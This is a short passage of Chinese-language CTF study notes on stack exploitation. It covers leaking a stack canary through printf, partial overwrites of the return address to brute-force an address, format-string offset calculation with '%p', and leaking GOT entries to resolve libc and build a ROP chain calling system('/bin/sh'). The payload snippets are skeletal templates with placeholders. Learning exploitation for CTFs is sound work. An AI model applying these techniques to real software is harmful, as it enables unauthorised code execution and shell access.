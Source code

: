 

### 2. **覆盖\x00 printf泄露**

​	攻击思路与canary一样

​	**注意：**若开启了canary要先泄露canary再泄露 **ret** 

```python
payload = b'a' * buf_length + '\n'  # canary

payload = b'a' * 溢出长度 + b'\xnn' + b'\xsn'  # n为已知的最后3位16进制地址，s为要爆破的地址0-0xf

```

```
payload = b'a' * 溢出长度
p.send()
```



### 3. 格式化字符串泄露

#### 泄露 ret 地址，ret2text 

(pwndbg 调试找到main的格式化偏移，然后泄露地址)

```
aaaa + '.%p' * n
```

​	参考canary计算偏移**`(buf_offset + (ret_addr - buf_addr) // 8 (4))`**

```
// 栈偏移
-006c buf
-0068 
...
+0000 ebp
+0004 ret
```

```
					(ret - (buf)) //4
offset = buf_offset + (4-(-0x6c)) // 4

%offset$p
```



#### 泄露got

```python
ret = 0xnnnnn321

elf_base = 0xnnnnn000

got = elf_base + 某函数got地址的偏移

# 泄露函数的真实地址
payload = '%offset$s' + p32(got)

# 网站找对应libc版本
# 算出system和/bin/sh的真实地址
# 构造ROP，执行system('/bin/sh')
```





